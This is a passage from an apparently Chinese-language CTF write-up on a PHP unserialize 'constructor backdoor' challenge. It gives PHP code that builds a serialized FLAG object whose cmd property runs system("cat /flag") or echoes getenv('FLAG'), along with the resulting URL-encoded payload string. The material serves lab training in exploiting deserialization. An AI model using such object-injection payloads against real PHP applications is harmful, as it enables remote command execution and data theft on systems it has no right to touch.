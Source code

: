     ![构造函数的后门 1](/hello_ctf/images/Serialize16.jpeg) (类定义)
    *   **Payload:** 创建 `FLAG` 对象，设置 `cmd` 属性为要执行的代码（注意 flag 在环境变量中，使用 `getenv('FLAG')`）。
        ```php
        <?php
        class FLAG {
            public $cmd = 'system("cat /flag");'; // 或 'echo getenv("FLAG");'
            // ...
        }
        $obj = new FLAG();
        echo urlencode(serialize($obj));
        ?> 
        ```
        生成的 payload: `O%3A4%3A%22FLAG%22%3A1%3A%7Bs%3A3%3A%22cmd%22%3Bs%3A22%3A%22system%28%22cat+%2Fflag%22%29%3B%22%3B%7D`